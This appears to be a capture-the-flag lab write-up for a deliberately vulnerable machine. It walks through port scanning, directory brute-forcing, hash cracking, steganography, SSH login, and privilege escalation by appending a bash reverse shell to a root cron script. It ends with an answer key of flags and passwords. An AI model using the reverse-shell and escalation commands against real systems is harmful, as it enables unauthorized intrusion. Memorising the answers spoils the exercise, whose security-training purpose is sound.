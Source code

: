 ```yaml
---
Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.
---
```


### rustscan

>port 80,6498,65524

`NGINX es un servidor web open source de alta performance que ofrece el contenido estático de un sitio web de forma rápida y fácil de configurar. Ofrece recursos de equilibrio de carga, proxy inverso y streaming, además de gestionar miles de conexiones simultáneas.`

### gobuster
```
gobuster dir --url http://10.10.60.150 -w /usr/share/wordlists/dirb/common.txt -t 30 -k -x py,html,txt
```

>found hidden then whatever paths

### cyberchef

`ZmxhZ3tmMXJzN19mbDRnfQ==` *recipe from base64*

`a18672860d0510e5ab6699730763b250` *found 10.10.60.150:65524/robots.txt*
[md5hashing](https://md5hashing.net/hash/md5/a18672860d0510e5ab6699730763b250)

`sourcode 10.10.60.150:65524` *flag{9fdafbd64c47471a8f54cd3fc64cd312}*

> its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu

==from base62 /n0th1ng3ls3m4tt3r==

### john

==hash found in hidden dir -> 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81==
```
john --wordlist=/home/kali/Downloads/easypeasy/easypeasy.txt hash --format=GOST
```

`mypasswordforthatjob`

### steghide

> download the matrix img

```
steghide extract -sf binarycodepixabay.jpg
```

```
cat secrettext.txt
```

>username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001

`cyberchef -> boring:iconvertedmypasswordtobinary`

### ssh

```
ssh boring@10.10.60.150 -p 6498
```

> found synt{a0jvgf33zfa0ez4y} -> rot13 `flag{n0wits33msn0rm4l}`

### priv esc

```
cat /etc/crontab
```
>There is an interesting cron job being run .mysecretcronjob.sh every minute. We can see that it is being run by root.

```
ls -all /var/www/.mysecretcronjob.sh 
```

>-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh

[revshells](https://www.revshells.com/)
```
echo 'bash -i >& /dev/tcp/10.18.1.00/4444 0>&1' >> /var/www/.mysecretcronjob.sh
```

`kali machine`

```
rlwrap nc -nlvp 4444 
```

```
cd /root
```

```
ls -all
```
>found it .root.txt > flag{63a9f0ea7bb98050796b649e85481845}
- How many ports are open? *3*
- What is the version of nginx?*1.16.1*
- What is running on the highest port?*Apache*
- Using GoBuster, find flag 1.*flag{f1rs7_fl4g}*
- Further enumerate the machine, what is flag 2?*flag{1m_s3c0nd_fl4g}*
- Crack the hash with easypeasy.txt, What is the flag 3?*flag{9fdafbd64c47471a8f54cd3fc64cd312}*
- What is the hidden directory?*/n0th1ng3ls3m4tt3r*
- Using the wordlist that provided to you in this task crack the hash what is the password? *mypasswordforthatjob*
- What is the password to login to the machine via SSH?*iconvertedmypasswordtobinary*
- What is the user flag?*flag{n0wits33msn0rm4l}*
- What is the root flag? *flag{63a9f0ea7bb98050796b649e85481845}*
